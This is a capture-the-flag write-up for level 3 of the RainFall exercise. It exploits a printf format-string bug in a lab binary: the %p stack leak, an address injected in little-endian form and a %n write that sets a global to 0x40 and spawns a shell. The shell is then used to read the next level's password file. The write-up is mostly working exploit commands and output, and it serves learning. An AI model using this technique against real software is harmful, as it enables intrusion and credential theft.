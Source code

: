 # Level 3

In this level we can see that we need to edit the value of the variable `m` to `0x40` in order to get a shell.
```asm
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
```
The input is read with the secure function `fgets`, our exploit lies elsewhere, in `printf`.

## The exploit
```shell
level3@RainFall:~$ ./level3 
%p %p %p %p
0x200 0xb7fd1ac0 0xb7ff37d0 0x25207025
```
Odd, we're getting the value of the argument of fgets and what strongly looks like stack addresses, which means....

Since we know that the ascii value of 0 is `0x30`, let's try inserting a bunch of 0 at the start of our buffer:
```shell
level3@RainFall:~$ python -c 'print "0000" + "%p "*10' | ./level3
00000x200 0xb7fd1ac0 0xb7ff37d0 0x30303030 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```
We can see that the 4th pointer gets modified by our printf format string as it's made of four zeroes (0x30303030), nice!

Let's simplify our string a bit now that we know which argument we can act on.

```shell
level3@RainFall:~$ python -c 'print "0000%4$p"' | ./level3
00000x30303030
```

## Inserting the address
```shell
level3@RainFall:~$ objdump -t ./level3  | grep m
[...]
0804988c g     O .bss   00000004              m
[...]
```
the value of `m` is `0x804988c`, we can get it from `gdb`, `r2`, `objdump` or ghidra.

Let's insert it as a value.
```shell
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%4$p"' | ./level3
0x804988c
```

#### note about struct.pack
struct.pack adds extra padding as we can see with hexdump:

```shell
level3@RainFall:~$ python -c 'import struct; print struct.pack("<Q", 0x804988c) + "%4$p"' | hexdump -C
00000000  8c 98 04 08 00 00 00 00  25 34 24 70 0a           |........%4$p.|
0000000d
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%4$p"'  | hexdump -C
00000000  8c 98 04 08 25 34 24 70  0a                       |....%4$p.|
00000009
```
This is why we write `0x804988c` in little-endian manually.

## Modifying memory
Now that we have access to the address of `m`, we can use `%n` to write a number to it as the BUG section of `printf` man tells us. 
The flag `%n` writes the number of character written so far to the pointer passed as argument, perfect to modify the value of `m`!

Since our format string is 4 bytes long, we need to add 60 more bytes.

```shell
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a"*60 + "%4$n"' | ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
```

We won! we just need to find a way to keep the shell open now.

## Putting it together

Let's send `cat` on stdin after our format string to keep the shell open.
```shell
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "a"*60 + "%4$n"' ; cat -) | ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass
[censored]
```
Done!

